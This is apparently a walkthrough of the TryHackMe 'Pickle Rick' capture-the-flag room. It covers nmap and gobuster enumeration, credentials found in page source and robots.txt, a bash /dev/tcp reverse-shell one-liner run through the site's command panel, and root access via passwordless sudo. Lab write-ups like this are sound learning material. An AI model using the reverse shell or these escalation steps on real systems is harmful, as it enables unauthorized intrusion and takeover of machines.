[Link : https://tryhackme.com/room/picklerick](https://tryhackme.com/room/picklerick)

## Enumeration

First, let’s do an enumeration with the IP address of this machine. I’m gonna run Nmap [Netwok Mapper] to scan any open ports. I’m gonna run this command

```
nmap -sC -sV -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -oN := output in normal format



Nmap scan shows us. There are 2 ports open ssh and HTTP. First, I’m gonna check port 80 because not common for ssh to log in as anonymous. Let’s check it out.

Cool! we got this web page



This is the very first thing I’m gonna do. You always need to check the page source code maybe we can find something interesting. Well, yes we did.



In this page source. We can see the comment says `Note to self, remember username!`. We have a username. Unfortunately, we don’t know where to log in as this username.

Well, I’m gonna run gobuster. Gobuster is a tool to find the hidden directory on this website

```
gobuster dir -u http://<machine ip> -w /path/to/wordlist.txt -x php,.txt,.html
```



The scan result shows us the hidden directory called `login.php` with status code 200 and we also found `robots.txt`

Let’s take a look at the login.php and robots.txt



If you remember. In the beginning, we found the username. If you look closely at the robots.txt it looks like something, maybe it is the password. Let’s try it.



wow! it’s working. We can see on this page, we can run the command in that box. So, I’m gonna execute reverse shell on that to make an easy foothold.



## Foothold/Gaining Access



```bash
bash -c ‘bash -i >& /dev/tcp/<your ip>/<listening port> 0>&1’
```



First, what I like to do is run the `sudo -l` command to check sudo permission/capability.



After, we ran that command. It says “(ALL) NOPASSWD: ALL”. This says 
> ‘Hey dude! you can run sudo without a password at all and be free to use it’.

This happens because of not properly configure the user and root.

Now, Let’s try find the first ingredient Rick needs.



Ok. We just have the first ingredient. However, We need two more the ingredient. So, let’s try to see any user home directory exists. Look like the user `rick` exists. Let’s try to check it out.



## Privilege Escalation

As we know, This user `www-data` can run sudo without a password at all. This means we can be root by running the command sudo su.



WoW! We just solve this box with ease and gain a lot of knowledge.

## Conclusion

I’ve learned a lot today. This shows us how dangerous it is if you don’t configure something properly. In this case, the sudo command. However, An attacker can be root in your machine if they have a good and strong foothold. Well, before an attacker can access make sure you have to patch all of your weak systems. In this machine, the website can execute bash. This is bad and an attacker easily got the reverse shell.

This room so much fun and I hope you guys have fun and learn something new today.